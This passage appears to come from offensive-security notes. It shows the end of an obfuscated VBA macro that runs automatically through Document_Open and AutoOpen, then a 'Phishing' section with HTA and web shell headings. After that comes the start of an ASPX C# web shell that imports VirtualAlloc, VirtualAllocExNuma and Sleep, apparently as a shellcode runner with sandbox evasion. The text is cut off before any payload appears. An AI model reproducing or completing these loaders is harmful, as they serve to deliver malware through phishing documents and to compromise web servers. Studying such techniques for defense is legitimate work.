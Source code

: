 ```vba

Loop While Len(Milk) > 0

Nuts = Oatmilk

End Function

Sub Document_Open()

MyMacro

End Sub

Sub AutoOpen()

MyMacro

End Sub
```

### Phishing
- HTA
- Web Shell
```csharp
<%@ Page Language="C#" AutoEventWireup="true" %>

<%@ Import Namespace="System.IO" %>

<%@ Import Namespace="System.Diagnostics" %>

<%@ Import Namespace="System.Runtime.InteropServices" %>

<%@ Import Namespace="System.Net" %>

<%@ Import Namespace="System.Text" %>

<%@ Import Namespace="System.Threading" %>

<script runat="server">

[System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true)]

public static extern IntPtr GetCurrentProcess();

[System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress,

uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

[System.Runtime.InteropServices.DllImport("kernel32.dll")]

static extern void Sleep(uint dwMilliseconds);

[System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,

uint flAllocationType, uint flProtect);

[System.Runtime.InteropServices.DllImport("kernel32.dll")]
```